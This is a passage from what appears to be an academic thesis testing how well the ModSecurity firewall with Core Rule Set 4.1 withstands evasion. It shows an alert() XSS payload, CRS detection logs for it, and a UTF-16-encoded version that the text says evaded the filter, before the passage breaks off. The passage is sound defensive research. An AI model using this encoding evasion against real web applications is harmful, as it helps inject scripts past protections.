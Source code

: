 \begin{lstlisting}[style=ruleStyle, language=XML, caption=<script>alert("xss")</script> blocked, label={lst:charsetaltexampleblocked}]
<payload><script>alert("xss")</script></payload>

<message>"XSS Attack Detected via libinjection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "116"] [id "941100"]<fileDetails>
<MatchedData>"<script>alert(\x22xss\x22)</script>"</MatchedData>

<message>"XSS Filter - Category 1: Script Tag Vector"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "142"] [id "941110"]<fileDetails>
<MatchedData>"<script>"</MatchedData>

<message>"NoScript XSS InjectionChecker: HTML Injection"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "234"] [id "941160"]<fileDetails>
<MatchedData>"<script"</MatchedData>

<message>"Javascript method detected"</message>
<file>"/rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
<fileDetails>[line "748"] [id "941390"]<fileDetails>
<MatchedData>"alert("</MatchedData>
\end{lstlisting}
After encoding the payload to \verb|UTF-16|, as proposed by the evasion technique stated under Section~\ref{sec:charsetalt}, a request with the obscured payload:

\begin{lstlisting}[style=basicStyle]
\xff\xfe<\x00s\x00c\x00r\x00i\x00p\x00t\x00>\x00a\x00l\x00e\x00r\x00t\x00(\x00'\x00x\x00s\x00s\x00'\x00)\x00<\x00/\x00s\x00c\x00r\x00i\x00p\x00t\x00>\x00
\end{lstlisting}
successfully evaded the filtering of the firewall. In order for this payload to have any effect, the web server receiving the \acrshort{http} request containing this payload needs to be informed that this payload is encoded in \verb|UTF-16|. For that purpose, the \acrshort{http} header: \\
\verb|Content-Type: text/html; charset=utf-16| \\
is added to the request.

The ModSecurity firewall using \acrshort{crs} 4.1 did not allow specifying \verb|UTF-16| as charset in the \verb|Content-Type| header and blocked the request:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=utf-16 charset header blocked, label={lst:utf16charsetheaderblocked}]
<payload>-H 'Content-Type: text/html; charset=utf-16'</payload>

<message>"Request content type charset is not allowed by policy"</message>
<file>"/rules/REQUEST-920-PROTOCOL-ENFORCEMENT.conf"</file>
<fileDetails>[line "1021"] [id "920480"]<fileDetails>
<MatchedData>"utf-16"</MatchedData>
\end{lstlisting}
The firewall log further states that the firewall

